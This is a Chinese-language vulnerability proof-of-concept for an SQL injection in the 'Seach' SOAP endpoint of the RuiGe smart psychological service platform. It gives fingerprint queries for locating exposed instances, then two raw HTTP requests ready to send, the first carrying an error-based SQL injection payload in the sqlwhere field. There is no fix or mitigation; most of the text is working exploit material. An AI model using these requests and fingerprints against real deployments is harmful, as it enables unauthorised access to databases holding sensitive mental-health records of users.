


### 一、漏洞描述
 瑞格智慧心理服务平台是一家致力于提供个性化心理健康支持的平台。通过先进的AI技术和专业心理学家团队，为用户提供定制化的心理评估和个性化的心理咨询服务。平台注重隐私保护和数据安全，用户可以安全、便捷地接受在线咨询和心理指导，帮助他们理解和应对各种心理健康挑战，提升生活质量和心理健康水平。瑞格智慧心理服务平台Seach存在SQL注入漏洞

### 二、影响版本
智慧平台

### 三、资产测绘
```plain
web.icon=="9d305e4b4f7603ccac03b0e535049ba0"
body="指纹登录\",\"请安装指纹驱动或启动服务"
```


### 四、漏洞复现
```plain
POST /NPreenManage/NPreenSMSList.asmx HTTP/1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ipfynjgpqv43v02aojsvsmgs
Connection: close
SOAPAction: RuiGe.WebUi.NPreenSMS/Seach
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 313

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ruig="RuiGe.WebUi.NPreenSMS">
   <soapenv:Header/>
   <soapenv:Body>
      <ruig:Seach>
         <!--type: string-->
         <ruig:sqlwhere>-5022 OR 8463 IN (SELECT (CHAR(113)+CHAR(106)+CHAR(107)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (8463=8463) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(122)+CHAR(107)+CHAR(98)+CHAR(113)))</ruig:sqlwhere>
      </ruig:Seach>
   </soapenv:Body>
</soapenv:Envelope>
```



```plain
POST /NPreenManage/NPreenSMSList.asmx HTTP/1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ipfynjgpqv43v02aojsvsmgs
Connection: close
SOAPAction: RuiGe.WebUi.NPreenSMS/Seach
Content-Type: text/xml;charset=UTF-8
Host:
Content-Length: 313

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ruig="RuiGe.WebUi.NPreenSMS">
   <soapenv:Header/>
   <soapenv:Body>
      <ruig:Seach>
         <!--type: string-->
         <ruig:sqlwhere>gero et</ruig:sqlwhere>
      </ruig:Seach>
   </soapenv:Body>
</soapenv:Envelope>
```



